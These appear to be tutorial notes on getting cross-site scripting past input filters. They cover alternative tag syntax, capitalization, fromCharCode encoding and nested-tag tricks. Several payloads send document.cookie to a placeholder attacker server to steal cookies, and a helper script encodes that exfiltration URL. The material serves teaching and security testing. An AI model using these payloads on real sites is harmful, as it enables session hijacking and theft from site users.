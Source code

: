 - Most applications now implement some sort of XSS protection in their input fields. Often, they’ll use a blocklist to filter out dangerous expressions that might be indicative of XSS

  

-> Alternative JavaScript Syntax :

  

- Often, applications will sanitize <script> tags in user input. If that is the case, try executing XSS that doesn’t use a <script> tag. For example, remember that in certain scenarios, you can specify JavaScript to run in other types of tags. When you try to construct an XSS payload, you can also try to insert code into HTML tag names or attributes instead.

  

- Instead of closing out the image tag and inserting a script tag, like this :

<img src="/><script>alert('XSS by Vickie');</script>"/>

  

- you can insert the JavaScript code directly as an attribute to the current tag:

<img src="123" onerror="alert('XSS by Vickie');"/>

  

- Another way of injecting code without the <script> tag is to use the special URL schemes mentioned before. This snippet will create a Click me!

link that will generate an alert box when clicked: <a href="javascript:alert('XSS by Vickie')>Click me!</a>"

  

-> Capitalization and Encoding :

  

- You can also mix different encodings and capitalizations to confuse the XSS filter. For example, if the filter filters for only the string "script", capitalize certain letters in your payload. For example : <scrIPT>location='http://attacker_server_ip/c='+document.cookie;</scrIPT>

  

- If the application filters special HTML characters, like single and double quotes, you can’t write any strings into your XSS payload directly.

But you could try using the JavaScript fromCharCode() function, which maps numeric codes to the corresponding ASCII characters, to create

the string you need. For example, this piece of code is equivalent to the string "http://attacker_server_ip/?c=":

String.fromCharCode(104, 116, 116, 112, 58, 47, 47, 97, 116, 116, 97, 99, 107, 101, 114, 95, 115, 101, 114, 118, 101, 114, 95, 105, 112, 47, 63, 99, 61)

  

- This means you can construct an XSS payload without quotes, like this:

<scrIPT>location=String.fromCharCode(104, 116, 116, 112, 58, 47, 47, 97, 116, 116, 97, 99, 107, 101, 114, 95, 115, 101, 114, 118, 101, 114, 95, 105, 112, 47, 63, 99, 61)+document.cookie;</scrIPT>

  

- You can use this piece of code to translate your exploit string to an ASCII number sequence by using an online JavaScript editor, like https://js.do/, to run the JavaScript code or by saving it into an HTML file and loading it in your browser:

  

- The ascii() function 1 converts characters to their ASCII numeric representation. We run each character in the input string through ascii() 2.

Finally, we write the translated string to the document 3. Let’s translate the payload http://attacker_server_ip/?c= by using this code:

  

<script>

function ascii(c){

return c.charCodeAt();

}

encoded = "http://attacker_server_ip/?c=".split("").map(ascii);

document.write(encoded);

</script>

  

->Filter Logic Errors :

  

- you could exploit any errors in the filter logic. For example, sometimes applications remove all <script> tags in the user input to prevent XSS,

but do it only once. If that’s the case, you can use a payload like this:

<scrip<script>t>

location='http://attacker_server_ip/c='+document.cookie;

</scrip</script>t>

  

- Notice that each <script> tag cuts another <script> tag in two. The filter won’t recognize those broken tags as legitimate, but once the filter removes the intact tags from this payload, the rendered input becomes a perfectly valid piece of JavaScript code:

<script>location='http://attacker_server_ip/c='+document.cookie;</script>

  

- These are just a handful of the filter-bypass techniques, For more filter bypass ideas, check out OWASP’s XSS filter evasion cheat sheet (https://

owasp.org/www-community/xss-filter-evasion-cheatsheet).